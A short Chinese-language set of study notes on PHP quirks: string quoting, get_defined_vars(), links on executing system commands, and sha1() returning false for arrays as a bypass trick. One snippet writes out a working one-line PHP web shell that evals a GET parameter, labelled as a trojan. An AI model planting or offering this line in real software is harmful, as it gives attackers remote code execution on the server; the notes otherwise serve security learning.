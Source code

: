 ## PHP中的一些未整理完的东西
>持续更新
### 关于PHP字符串中的引号

PHP的字符串中，双引号完全支持转义字符，也支持在打印里面的变量（如果不想打印，需要写成\$）。

单引号，除非是要在单引号里面打印单引号，需要进行转义。否则，单引号中不支持其它任何形式的转义。
```php
//只有这种情况是可以转义的
$a = 'I\'m a good man.';
//打印结果为：I'm a good man.
//其它情况
$b = "hah";
$c = "a";
$a = '$b $c';
//打印结果为：$b $c
```

#### get_defined_vars()
该函数会返回一个数组，里面包含当前所有已经定义的服务器变量，环境变量和用户变量。
```php
//利用该函数可以构造一句话木马
@eval(get_defined_vars()['_GET']['cmd']);
```

#### 可以执行系统命令
https://blog.csdn.net/Auuuuuuuu/article/details/88778852

https://cloud.tencent.com/info/8ceed38d46829f15abfea34a9b82a7ff.html 

#### sha1函数
sha1函数不能加密数组，返回值为false。

该特性经常被用于一些绕过之中。